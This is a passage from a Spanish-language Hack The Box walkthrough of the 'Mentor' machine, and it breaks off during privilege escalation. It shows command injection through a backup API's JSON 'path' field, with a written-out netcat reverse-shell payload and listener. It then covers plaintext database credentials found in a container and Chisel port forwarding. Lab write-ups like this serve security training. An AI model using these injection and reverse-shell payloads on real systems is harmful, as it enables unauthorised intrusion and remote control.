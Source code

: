 Usé un cuerpo con una estructura **Json** vacía, y ver la respuesta del lado del servidor.
![](/assets/images/htb-writeup-mentor/Pasted image 20231220125544.png)

Está esperando una estructura con "**path**", así que se me ocurre qué cuando le pase una ruta del sistema, la convertirá en un **.bak** comprimido o algo parecido, de primeras se me ocurre inyectar comandos ya que controlamos la ruta qué queremos hacer **backup**.

![](/assets/images/htb-writeup-mentor/Pasted image 20231220130319.png)

Logrando que dure 5 segundos la respuesta del servidor, sé que estoy controlando el comando, entonces intento hacerme un **ping** a mí mismo para confirmarlo.

![](/assets/images/htb-writeup-mentor/Pasted image 20231220130503.png)
![](/assets/images/htb-writeup-mentor/Pasted image 20231220130531.png)

Confirmamos que estamos ejecutando comando, entonces sé me ocurre enviarme una **Reverse Shell.**, intenté con Bash pero no tuve éxito, así que intenté con **Netcat** lográndolo.

1. Nos ponemos en escucha.
```bash
rlwrap nc -nlvp PORT
```

2. Nos enviamos la Reverse Shell.
```bash
{"path":";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.x.x PORT >/tmp/f;"}
```



y ya estaríamos dentro de la máquina, pero en un contenedor, como vemos...

![](/assets/images/htb-writeup-mentor/Pasted image 20231221110609.png)


# Escalada de Privilegios #1 
___

Indagando en el contenedor de la web, en el código fuente estaba la DB con las credenciales en texto claro.

![](/assets/images/htb-writeup-mentor/Pasted image 20231221111143.png)
y vemos que lo está corriendo en el **"172.22.01"** que intuyo qué es el **HOST** el real, ya qué esta suele ser la interfaz de Docker.

la DB es una **Postgresql**, y en el contenedor no existe **"psql"** para poder ingresar a ésta base de datos desde consola, así que procederé a hacer un **Remote Port Forwarding** usando **Chisel**, pero primero hago una investigación en google para ver cual suele ser el puerto default de **Postgresql**, encontrando que suele ser el **5432**.

1. Asignamos desde local el puerto qué queremos asignar para el Port Forwarding.
```bash
./chisel server --reverse -p 1234
```
